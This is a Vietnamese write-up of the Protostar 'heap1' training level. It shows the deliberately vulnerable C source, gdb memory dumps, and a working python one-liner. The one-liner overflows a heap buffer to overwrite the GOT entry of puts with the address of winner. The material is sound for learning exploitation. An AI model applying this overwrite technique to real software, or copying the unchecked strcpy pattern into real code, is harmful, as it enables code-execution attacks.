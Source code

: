 # HEAP ONE

## About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Solutions

`HEAP ONE` cho chúng ta thấy ngoài việc thay đổi luồng thực thi, trong một số trường hợp đặc biệt việc khai báo cấu trúc các biến cho ta khả năng ghi đè dẫn tới chiếm được quyền điều khiển luồng thực thi. Thử thách hoàn thành khi chúng ta in được dòng chữ `"and we have a winner @ "`.

Trong chương trình này, chúng ta thấy rằng hai `struct internet` đã được cấp phát. Mỗi struct chứa một con trỏ `name` được cấp phát riêng. Điều này có nghĩa là `struct internet` được cấp phát trên heap sẽ chứa một con trỏ đến một phần khác của bộ nhớ trên heap có chứa bộ đệm char.

Bộ nhớ Heap được cấp phát liên tục nên Heap được bố cục như sau:

```
[i1 structure][i1's name buffer][i2 structure][i2's name buffer]
```

Do buffer overflow từ cuộc gọi `strcpy` đầu tiên, chúng ta có thể ghi đè con trỏ `name` của i2 bằng một vị trí mà chúng ta muốn cuộc gọi `strcpy` thứ hai ghi vào. Với điều này, chúng ta có thể ghi dữ liệu tùy ý vào bất kỳ vị trí nào trong bộ nhớ mà chúng tôi muốn.

```
$./heap1 AAAA BBBB

(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
...
```

Vấn đề bây giờ là ghi vào đâu? Chắc các bạn vẫn còn nhớ `FORMAT FOUR`, ý tưởng của tôi ở đây là ghi đè địa chỉ `GOT` của hàm `puts` bằng địa chỉ của hàm `winner` để thay vì gọi hàm `puts` in `"and that's a wrap folks!"` chúng ta sẽ nhảy đến hàm `winner` và thoát mà không có `Segmentation fault`.

Địa chỉ `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Địa chỉ `GOT` của `puts`.

```
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) x/2i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
(gdb)
```

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'") $(python -
c "print '\x94\x84\x04\x08'")
and we have a winner @ 1649082615
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



